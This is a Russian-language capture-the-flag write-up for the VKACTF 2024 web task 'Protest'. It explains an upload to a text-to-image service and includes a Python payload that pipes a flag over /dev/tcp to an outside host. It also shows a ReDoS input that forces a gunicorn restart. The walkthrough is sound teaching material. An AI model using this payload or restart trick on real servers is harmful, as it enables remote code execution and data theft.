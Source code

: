 ## Protest

| Событие | Название | Категория | Сложность |
| :------ | ---- | ---- | ---- |
| VKACTF 2024 | Protest  | Web | Hard |

  
### Описание


> Автор: [ EGM ]
>
> Протесты в городе обычное дело, нужно их решать! Бери молоток и беги к рабочим на стоянку!


### Решение

1. Сервис позволяет переводить текстовые файлы в картинки, но имя файла проверяется по регулярке.
```
def check_filename(checked_file):
    random_uuid = str(uuid.uuid4())
    res = re.match(r'^[\.a-zA-Z0-9_-]([\.a-zA-Z0-9_-]+)*$', checked_file)
    safe_filename = random_uuid if res is None else checked_file
    return safe_filename
```

2. Из скрипта ```run.sh``` ,понимаем, что сервер поднимается с помощью ```gunicorn``` сервера.

3. Использем при загрузке файл ```__init__.py``` с нагрузкой которая отправит файл на свой сервер ```"__import__('os').system('bash -c "/readflag>/dev/tcp/host/port"')"```

4. Необходимо перегрузить ```gunicorn```, чтобы выполнился новый ```__init__.py``` файл. Воспользуемся redos на 
```
r'^[\.a-zA-Z0-9_-]([\.a-zA-Z0-9_-]+)*$'
aaaaaaaaaaaaaaaaa!
```
5. Сервер перезагрузится с новым ```__init__.py``` файлом и отправит флаг на ваш сервер. 

### Эксплоит
[ez_exploit.py](../give/ez_exploit.py)

### Флаг

```
vka{6Un1p0rn_0r_Pun1c0rn}
```
